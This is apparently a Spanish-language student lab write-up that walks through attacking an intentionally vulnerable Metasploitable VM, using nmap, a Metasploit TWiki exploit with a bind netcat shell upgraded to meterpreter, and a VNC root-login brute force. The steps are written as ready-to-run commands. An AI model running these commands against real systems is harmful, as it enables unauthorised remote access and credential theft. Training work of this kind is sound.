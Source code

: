 # Ejemplo 1
<br>
  <br>
    -La máquina virtual Metasploitable es una versión intencionalmente vulnerable de Ubuntu Linux diseñada para probar herramientas de seguridad y demostrar vulnerabilidades comunes.
<br>

  Buscar vulnerabilidades:
  <br>
    -Ataquaremos al puerto 80
    -Para ello tendremos que usar la herramienta nmap con 192.168.1.10 es la ip que tenermos en la maquina a la cual vamos a atacar 
    
    nmap -O 192.168.1.10
     
                                                                                                  
![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/190cde79-3c47-46d6-bf70-7bd082a6fa75)

-Iniciaremos la herramienta “metasploit framework”

 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/69871245-d7ca-4a04-8784-f92ce9e4a3fd)

-Después usaremos la herramienta twiki con el comando “use exploit/unix/webapp/twiki_history” en la que tendremos si podemos atacar al puerto que nos interese identificar con el comando “show options”

    use exploit/unix/webapp/twiki_history
    show options
    
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/ce0918a2-a729-44a7-ba80-33201418d83c)


Indicaremos cual es nuestro objetivo
      
      set rhosts 192.168.1.10
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/f9c339eb-9c92-41d4-9fa8-5ce7741075f4)
![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/3dbcbd54-3ea7-4570-9b2b-55cc43f3f22a)


 

Para continuar tendremos que usar los siguientes

    set payload cmd/unix/bind_netcat
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/3403d27e-5900-4edf-a465-3b93fb1944e6)


 
Tendremos que crear una sesión con “exploit -j” y veremos si se ha creado con “sessions -l”
  
    exploit -j
    sessions -l
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/fe13f062-4730-4f5d-9a18-cdc48dc267bb)


Tendremos que usar los siguientes comandos

      use post/multi/manage/shell_to_meterpreter
      set sessions 2
      exploit
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/6b9ecb6b-f268-4db5-b4f0-6a81a3d6c2a0)


Ya podemos entrar en la maquina objetivo con el comando “sessions -i 3” y haremos un “ifconfig para confirmar si hemos entrado bien”

    sessions -i 3
    ifconfig
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/71e9be85-3d5b-4099-b7b7-d8681aec1284)

# Ejemplo 2

<br>
-Atacaremos al puerto P 5900 VNC 

-Comprobaresmos si podemos usar el puerto 5900

<img width="385" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/b864e490-0d1a-4b31-a1ed-166a3c72ac08">

-Iniciaremos la herramienta “metasploit framework”

 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/69871245-d7ca-4a04-8784-f92ce9e4a3fd)

-Vemos que opciones tenemos para usar vnc con "search vnc_login" y usamos el 0 con "use 0"

    search vnc_login
    use 0
<img width="430" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/72507d21-b71b-4339-9f03-6e95c3d776cd">

-Indicamos el objetivo con "set rhosts 192.168.1.10" y que usuario usaremos con "set USERNAME root"

    set rhosts 192.168.1.10
    set USERNAME root
    

<img width="265" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/b82cf34d-7359-451f-8a36-57fdb1cfaf0c">

-Lo iniciaremos con "run" y nos dara la contraseña

      run
      
<img width="307" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/83db20e4-0c63-440e-9655-2c967bc786d2">

-Pondremos en la terminal "vncviewer 192.168.1.10" y ya nos conectara 

      vncviewer 192.168.1.10
      
<img width="530" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/517e517b-094f-4e63-a408-1e136f5e83ad">
